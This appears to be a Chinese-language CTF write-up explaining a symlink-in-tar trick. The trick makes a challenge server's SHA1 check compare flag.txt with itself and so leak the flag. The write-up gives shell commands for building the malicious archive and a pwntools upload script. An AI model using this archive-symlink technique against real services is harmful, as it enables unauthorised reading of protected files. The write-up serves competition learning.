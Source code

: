 #### Solution

賽後聽**stavhaygn**說這題對**MacacaHub**算考古題... 來自去年金盾獎決賽= =
不過從遊記[108金盾獎決賽](https://yctseng1227.github.io/191116-108-cyber-security-competition/)看得出來我沒有參與到解題過程，可惡QwQ


簡單解釋一下上方的code:
line 12 基本上就是輸入數字，即檔案大小。
line 17, 18 輸入tar包裝檔案（可以利用pwntool），然後在line 23進行解包。
line 29 - 36 針對官方Server的兩個檔案 `guess.txt` 和 `flag.txt` 進行sha1比對，若相同就吐出flag。

我起初乍看之下還以為是sha1 bypass，但我們並不能改變Server的檔案，那我們到底是要上傳啥哩？

關鍵就是 [**Symbolic link**](https://en.wikipedia.org/wiki/Symbolic_link)，有點像是建立捷徑的概念，把 `guess.txt` 和 `flag.txt` 連結在一起。

首先，在本地端用指令建立連結，透過`ls`查看。
```shell
$ ln -s flag.txt guess.txt
$ ls -al
lrwxrwxrwx ... guess.txt -> flag.txt
```

再來就是進行tar打包（無壓縮）。
```shell
$ tar cvf guess.tar guess.txt
```

如此我們就能得到一個tar檔案，再來把扣摳一摳就行了吧。

{% codeblock solve.py lang:python %}
from pwn import *

conn = remote('60.250.197.227', 11000)

with open('./guess.tar', 'rb') as f:
    tar = f.read()

num = len(tar)
conn.sendline(str(num))
conn.sendline(tar)
conn.interactive()
{% endcodeblock %}

BOOOOOOOM，RUN起來結果看起來是爛掉了。
![](https://i.imgur.com/x99iZre.png)

從第四行看得出來 `guess.txt` 和 `flag.txt` 似乎不在同一個目錄中。
不過錯誤提示也把路徑告訴我們了，簡單講大guy長得像底下這樣。
```
/home/ctf/
├── flag.txt
├── tmp7lzztdlk
│   ├── guess.txt
```

那就把連結的部分刪掉重來一遍！
```shell
$ rm guess.txt guess.tar # 記得把舊檔砍掉
$ ln -s /home/ctf/flag.txt guess.txt
$ ls -al
lrwxrwxrwx ... guess.txt -> /home/ctf/flag.txt
$ tar cvf guess.tar guess.txt
```
